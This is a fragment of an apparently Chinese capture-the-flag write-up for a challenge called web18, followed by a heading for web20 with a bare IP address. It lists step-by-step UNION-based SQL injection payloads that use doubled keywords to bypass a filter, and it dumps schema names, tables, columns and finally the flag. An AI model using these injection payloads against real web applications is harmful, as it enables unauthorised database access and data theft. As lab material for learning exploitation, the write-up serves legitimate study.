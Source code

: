 

```
爆数据库
?id=-1' uniunionon selselectect 1,2,group_concat(schema_name)from infoorrmation_schema.schemata--+
得到:information_schema,web18.

爆表：
?id=-1' uniunionon selselectect 1,2,group_concat(table_name) from infoorrmation_schema.tables where table_schema='web18'--+
得到: ctf,flag.

爆列：
?id=-1' uniunionon selselectect 1,2,group_concat(column_name) from infoorrmation_schema.columns where table_name='flag'--+
得到：id,flag.

爆字段：
?id=-1' uniunionon selselectect 1,2,flag from flag--+

```



![1555855754559](img/1555855754559.png)

#### 6、web20   ok

http://123.206.31.85:10020/
